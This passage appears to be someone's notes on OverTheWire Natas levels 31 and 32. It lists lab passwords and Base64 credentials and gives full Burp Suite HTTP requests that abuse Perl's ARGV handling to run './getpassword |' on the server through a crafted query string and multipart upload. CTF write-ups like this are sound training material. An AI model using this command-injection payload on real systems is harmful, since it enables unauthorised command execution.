 ```
Referer: http://natas31.natas.labs.overthewire.org/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundarylrrZCTqDvB2wjAi6
Content-Disposition: form-data; name="file"

ARGV
------WebKitFormBoundarylrrZCTqDvB2wjAi6
Content-Disposition: form-data; name="file"; filename="text.csv"
Content-Type: text/csv

1,2,
3,4,
------WebKitFormBoundarylrrZCTqDvB2wjAi6
Content-Disposition: form-data; name="submit"

Upload
------WebKitFormBoundarylrrZCTqDvB2wjAi6--
```

## 32->33
- http://natas32.natas.labs.overthewire.org/
- `natas33:2v9nDlbSF7jvawaCncr5Z9kSzkmBeoCJ`
- https://learnhacking.io/overthewire-natas-level-32-walkthrough/

Request used in Burp Suite Repeater
```
POST /index.pl?./getpassword%20| HTTP/1.1
Host: natas32.natas.labs.overthewire.org
Content-Length: 383
Cache-Control: max-age=0
Authorization: Basic bmF0YXMzMjpOYUlXaFcyVklyS3FyYzdhcm9KVkhPWnZrM1JRTWkwQg==
Accept-Language: en-US,en;q=0.9
Origin: http://natas32.natas.labs.overthewire.org
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryKoBdBHCSxWyuaRGS
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://natas32.natas.labs.overthewire.org/index.pl
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryKoBdBHCSxWyuaRGS
Content-Disposition: form-data; name="file"

ARGV
------WebKitFormBoundaryKoBdBHCSxWyuaRGS
Content-Disposition: form-data; name="file"; filename="text.csv"
Content-Type: text/csv

1,2,
3,4,
------WebKitFormBoundaryKoBdBHCSxWyuaRGS
Content-Disposition: form-data; name="submit"

Upload
------WebKitFormBoundaryKoBdBHCSxWyuaRGS--
```
